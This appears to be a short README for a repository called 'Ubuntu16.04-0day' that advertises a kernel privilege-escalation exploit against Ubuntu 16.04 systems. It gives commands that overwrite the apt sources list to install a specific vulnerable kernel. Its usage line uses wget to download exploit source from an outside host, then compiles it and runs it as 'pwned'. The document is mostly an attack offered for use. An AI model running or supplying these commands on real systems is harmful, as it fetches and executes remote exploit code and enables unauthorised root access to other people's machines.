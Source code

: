 # Ubuntu16.04-0day

#### all 4.4 ubuntu aws instances are vulnerable

```

echo "deb http://archive.ubuntu.com/ubuntu/  xenial-proposed restricted main multiverse universe" > /etc/apt/sources.list

apt update 

apt install linux-image-4.4.0-117-generic

reboot

```

[![asciicast](https://asciinema.org/a/7OBFovzR6b5g5FQsS3bUVe0aW.png)](https://asciinema.org/a/7OBFovzR6b5g5FQsS3bUVe0aW)


## Use-Age:

```

wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned 


```

![](./0day.jpg)
